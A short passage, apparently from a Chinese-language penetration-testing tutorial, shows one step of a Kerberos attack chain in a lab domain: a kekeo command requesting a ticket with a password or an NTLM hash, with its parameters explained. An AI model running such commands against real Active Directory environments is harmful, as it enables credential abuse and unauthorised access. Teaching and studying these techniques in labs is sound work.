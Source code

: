 [![](assets/1705982146-6c0cef5712b8200aca63cf4591a1a9c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223046-804642ae-b7a0-1.png)  
Step 3：之后我们可以在 Win 7 主机上使用 kekeo 执行如下命令来请求 ST 服务票据

```plain
tgt::ask /user:al2ex /domain:hacke.testlab /password:"1234Rewq!@#$"

#参数说明
/user:当前用户名
/domain:所在域名
/password:当前用户名的密码
/ticket:生成票据名称，这个参数也可以直接跳过

PS:如果已知的是服务账号的 NTLM Hash，则如下
tgt::ask /user:al2ex /domain:hacke.testlab /NTLM:"NTLM-Hash"
```
